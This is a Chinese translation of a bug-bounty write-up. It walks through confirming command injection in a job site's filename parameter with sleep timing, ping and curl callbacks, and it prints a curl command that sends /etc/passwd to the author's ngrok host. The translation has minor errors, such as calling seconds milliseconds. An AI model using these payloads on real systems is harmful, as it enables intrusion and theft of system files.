







# 命令注入概念验证

> 原文：<https://infosecwriteups.com/command-injection-poc-72cc3743f10d?source=collection_archive---------0----------------------->

所以早在 2017 年 12 月，我在一个招聘网站上发现了一个命令注入漏洞。这是简单的概念证明。易受攻击的参数是**文件名**。

我用这个命令 **`sleep 5`** 进行了测试，响应延迟了 5-6 秒(6.113 毫秒)。见右下角的延迟。

我再次用**`睡眠 10`** 检查，只是为了确认一下，看看有什么不同。响应再次延迟 10-11 秒(11.137 毫秒)。见右下角的延迟。

我尝试使用 **`ping -c 5 <我的服务器 IP 地址>`**ping 我的服务器，并在我的服务器上运行 **tcpdump -i <接口> -n icmp** 来查看传入的 icmp 数据包。ping 命令意味着向我的服务器 IP 地址发送 5 次 ICMP 数据包。

抱歉编辑，但你可以看到我有 5 次传入 ICMP 数据包。我的服务器 IP 地址是 5.000.000.105，传入的 ICMP 数据包来自 000.000.39.169。现在我知道 filename 参数容易受到命令注入的攻击。

我在用 ngrok 做另一个测试。所以我跑**。/ngrok http 80** 在我的本地主机上，我对易受攻击的参数执行这个**` curl blablabla . ngrok . io `**。

现在看看 ngrok web 界面上的响应(http://127.0.0.1:4040)。我收到来自 IP 地址 000.000.39.169 的传入请求。上面 ICMP 请求中的相同 IP 地址。

现在，我可以读取易受攻击的服务器上的文件，并使用以下命令将其发送到我的 ngrok 地址**` curl-F SHL = @/etc/passwd blablabla . ngrok . io `**。该命令意味着使用包含/etc/passwd 的 shl 参数向 blablabla.ngrok.io 发送 POST 请求。

结果是易受攻击的服务器将他们的/etc/passwd 发送到我的 ngrok 地址。同样来自 IP 地址 000.000.39.169。

就是这样！黑客快乐！:)